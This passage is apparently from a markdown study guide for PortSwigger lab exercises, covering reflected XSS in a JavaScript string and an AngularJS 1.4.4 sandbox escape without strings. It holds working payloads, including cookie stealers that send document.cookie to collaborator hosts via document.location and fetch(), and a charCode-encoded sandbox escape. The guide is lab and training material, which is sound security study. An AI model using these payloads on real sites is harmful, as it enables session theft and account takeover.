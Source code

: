 ```
\';document.location=`https://COLLABORATOR.com/?BackTicks=`+document.cookie;//
```

> With help from Trevor I made this into cookie stealer payload, using back ticks. Thanks Trevor, here is his Youtube walk through [XSS JavaScript String Angle Brackets Double Quotes Encoded Single](https://youtu.be/Aqfl2Rj0qlU?t=598)

[PortSwigger Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)

#### AngularJS Sandbox Escape

> Expert PortSwigger Lab exercise using AngularJS 1.4.4 and versions 1.x has reached end of life and is no longer maintained.\
> This lab uses **AngularJS** in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.\
> Objective, perform a cross-site scripting attack that escapes the sandbox and executes the payload without using the `$eval` function.

[z3nsh3ll - YouTube Video give a great explanation of this Reflected XSS with AngularJS Sandbox Escape Without Strings](https://youtu.be/gKLHVT67sU0?si=tqQMb5Y6xLA-jgR4)

> _**Identify**_ the `angular.module` in JavaScript source code:

> The `key` variable value `search` is injected into the JavaScript created dynamically.\
> No obvious security issue present here. However, the security of this code depends on how this controller and the extracted values are used in the back-end.

> The `$parse` method evaluates the AngularJS expression `$scope.query`.

> Using the `&` to add second key value pair to test payload dynamic code generated.

> Changing the second added key value name to expression to determine if evaluated, `/?search=key1value&7*7=payload` and math result is 49.

> Constructing a payload fails when using `alert()` as the second key name in how angularJS compile the code through the parser.

> [AngulaJS sandbox - See PortSwigger Client-Side template injection documents](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection)

> [PortSwigger CheatSheet Reference Sandbox 1.4.4 escape](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-\(without-strings\))

```
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

> Collaborator payload _**cookie stealer**_:

```
x=fetch('https://m9w8haeauh0frftrtjdvexkyrpxgl69v.oastify.com/?z='+document.cookie)
```

> The ASCII decimal values for each character in the above payload string, separated by commas. Each number represents the ASCII decimal value of the corresponding character in the payload string.
